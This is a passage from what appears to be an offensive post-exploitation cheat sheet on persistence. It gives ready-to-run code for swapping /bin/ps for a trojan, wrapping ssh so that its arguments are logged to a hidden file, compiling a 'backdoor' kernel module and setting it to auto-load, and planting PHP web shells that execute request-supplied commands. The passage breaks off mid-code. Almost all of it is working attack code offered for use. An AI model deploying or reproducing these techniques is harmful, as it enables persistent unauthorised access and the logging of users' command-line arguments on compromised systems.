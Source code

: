 ### Binary Replacement
```bash
# Replace legitimate binary with trojan
cp /bin/ps /tmp/ps_backup
cp backdoor_ps /bin/ps

# Wrapper script technique
mv /usr/bin/ssh /usr/bin/ssh_real
cat > /usr/bin/ssh << 'EOF'
#!/bin/bash
# Log credentials
echo "$@" >> /tmp/.ssh_log
# Execute real ssh
/usr/bin/ssh_real "$@"
EOF
chmod +x /usr/bin/ssh
```

### Kernel Module Persistence (Linux)
```bash
# Simple kernel module (requires root)
cat > backdoor.c << 'EOF'
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>

static int __init backdoor_init(void) {
    printk(KERN_INFO "Backdoor: Module loaded\n");
    // Backdoor functionality here
    return 0;
}

static void __exit backdoor_exit(void) {
    printk(KERN_INFO "Backdoor: Module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
MODULE_LICENSE("GPL");
EOF

# Compile and install
make -C /lib/modules/$(uname -r)/build M=$(pwd) modules
insmod backdoor.ko
echo "backdoor" >> /etc/modules
```

## Web-Based Persistence

### Web Shell Deployment
```php
<?php
// Simple PHP web shell
if(isset($_REQUEST['cmd'])){
    $cmd = $_REQUEST['cmd'];
    system($cmd);
}

// Advanced web shell with authentication
if(isset($_POST['pass']) && $_POST['pass'] == 'secret_password'){
    if(isset($_POST['cmd'])){
        echo "<pre>" . shell_exec($_POST['cmd']) . "</pre>";
    }
```